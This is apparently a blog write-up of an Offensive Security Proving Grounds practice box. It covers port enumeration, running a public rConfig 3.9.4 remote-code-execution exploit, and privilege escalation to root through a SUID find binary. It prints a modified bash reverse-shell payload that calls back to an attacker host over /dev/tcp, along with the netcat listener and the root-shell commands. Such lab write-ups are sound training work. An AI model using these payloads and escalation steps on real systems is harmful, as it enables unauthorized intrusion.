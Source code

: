 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- -sV 192.168.126.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-12 16:57 EST
Nmap scan report for 192.168.126.57
Host is up (0.026s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
8081/tcp open  http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
Service Info: Host: QUACKERJACK; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.90 seconds
```

## port 21 (`ftp`)
> No `anonymous` login allowed.
{: .prompt-danger }

## port 139,445 (`smb`)
> No smb shares available.
{: .prompt-info }

## port 80 (web server)
A default landing page is visible.

## port 8081 (web server)
Installed software: `rConfig Version 3.9.4 `

---

# exploitation
## find an exploit
```bash
$ searchsploit rconfig 3.9.4
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection                                                                                    | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution                                                                      | php/webapps/48261.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution` looks worth a try.

## customize exploit
The exploit does not trigger a reverse shell out of the box.  
The payload needs to be changed: ```payload = ''' `touch /tmp/.'''+fake_user+'''.txt;sudo zip -q /tmp/.'''+fake_user+'''.zip /tmp/.'''+fake_user+'''.txt -T -TT '/bin/sh -i>& /dev/tcp/{0}/{1} 0>&1 #'` '''.format(ip, port)```  
We are changing the payload variable to ```payload = ''' `bash -c 'bash -i >& /dev/tcp/192.168.49.126/8081 0>&1'` '''```

## start listener on attacker machine
```bash
$ nc -lvp 8081
listening on [any] 8081 ...
```

## execute exploit
```bash
$ python3 48261.py https://192.168.126.57:8081/ 192.168.49.126 8081
rConfig - 3.9 - Unauthenticated root RCE
[+] Adding a temporary admin user...
[+] Authenticating as syrmuxipft...
[+] Logged in successfully, triggering the payload...
[+] Check your listener !
[+] The reverse shell seems to be opened :-)
[+] Removing the temporary admin user...
[+] Done.
```

## catch connection from target
```bash
$ nc -lvp 8081
listening on [any] 8081 ...
192.168.126.57: inverse host lookup failed: Unknown host
connect to [192.168.49.126] from (UNKNOWN) [192.168.126.57] 41716
bash: no job control in this shell
bash-4.2$ whoami
whoami
apache
```

> We got a shell!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
bash-4.2$ cd home
cd home
bash-4.2$ ls
ls
rconfig
bash-4.2$ ls -lsah
ls -lsah
total 4.0K
   0 drwxr-xr-x.  3 root   root   21 Jun 22  2020 .
   0 dr-xr-xr-x. 17 root   root  244 Jun 25  2020 ..
4.0K drwxr-xr-x. 15 apache root 4.0K Jul  9  2020 rconfig
bash-4.2$ cd rconfig
cd rconfig
bash-4.2$ ls
ls
LICENSE
README.md
backups
classes
composer.json
composer.lock
config
cronfeed
data
lib
local.txt
logs
reports
templates
tmp
updates
vendor
www
bash-4.2$ cat local.txt
cat local.txt
3******************************5
```

## privilege escalation

Looking for binaries with `SUID` flag which are owned by `root`.

```bash
bash-4.2$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
/dev/nullype f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>  
-r-xr-sr-x. 1 root tty 15344 Jun  9  2014 /usr/bin/wall
-rwsr-xr-x. 1 root root 199304 Oct 30  2018 /usr/bin/find
-rwsr-xr-x. 1 root root 73888 Aug  8  2019 /usr/bin/chage
-rwsr-xr-x. 1 root root 78408 Aug  8  2019 /usr/bin/gpasswd
-rws--x--x. 1 root root 23968 Apr  1  2020 /usr/bin/chfn
-rws--x--x. 1 root root 23880 Apr  1  2020 /usr/bin/chsh
-rwsr-xr-x. 1 root root 41936 Aug  8  2019 /usr/bin/newgrp
-rwsr-xr-x. 1 root root 32128 Apr  1  2020 /usr/bin/su
---s--x--x. 1 root root 147336 Apr  1  2020 /usr/bin/sudo
-rwsr-xr-x. 1 root root 44264 Apr  1  2020 /usr/bin/mount
-rwsr-xr-x. 1 root root 31984 Apr  1  2020 /usr/bin/umount
-rwxr-sr-x. 1 root tty 19544 Apr  1  2020 /usr/bin/write
---x--s--x. 1 root nobody 382216 Aug  8  2019 /usr/bin/ssh-agent
-rwsr-xr-x. 1 root root 57656 Aug  8  2019 /usr/bin/crontab
-rwsr-xr-x. 1 root root 23576 Apr  1  2020 /usr/bin/pkexec
-rwsr-xr-x. 1 root root 27856 Mar 31  2020 /usr/bin/passwd
-rwsr-xr-x. 1 root root 32096 Oct 30  2018 /usr/bin/fusermount
-rwx--s--x. 1 root slocate 40520 Apr 10  2018 /usr/bin/locate
-rwsr-xr-x. 1 root root 36272 Apr  1  2020 /usr/sbin/unix_chkpwd
-rwsr-xr-x. 1 root root 11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
-rwxr-sr-x. 1 root root 11224 Mar 31  2020 /usr/sbin/netreport
-rwsr-xr-x. 1 root root 11296 Mar 31  2020 /usr/sbin/usernetctl
-rwxr-sr-x. 1 root postdrop 218560 Apr  1  2020 /usr/sbin/postdrop
-rwxr-sr-x. 1 root postdrop 264128 Apr  1  2020 /usr/sbin/postqueue
-rwsr-xr-x. 1 root root 15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
-rwx--s--x. 1 root utmp 11192 Jun  9  2014 /usr/libexec/utempter/utempter
-rwsr-x---. 1 root dbus 58024 Mar 14  2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper
---x--s--x. 1 root ssh_keys 465760 Aug  8  2019 /usr/libexec/openssh/ssh-keysign
```

Checking [gtfobins](https://gtfobins.github.io/gtfobins/find/#suid) shows that `find` can be used to elevate the privileges to `root`.

```bash
bash-4.2$ /usr/bin/find . -exec /bin/sh -p \; -quit     
/usr/bin/find . -exec /bin/sh -p \; -quit
sh-4.2# whoami
whoami
root
```

> Root! Root!
{: .prompt-info }

## get second flag
```bash
sh-4.2# cd /root
cd /root
sh-4.2# ls
ls
proof.txt
sh-4.2# cat proof.txt
cat proof.txt
6******************************5
```

Pwned! <@:-)
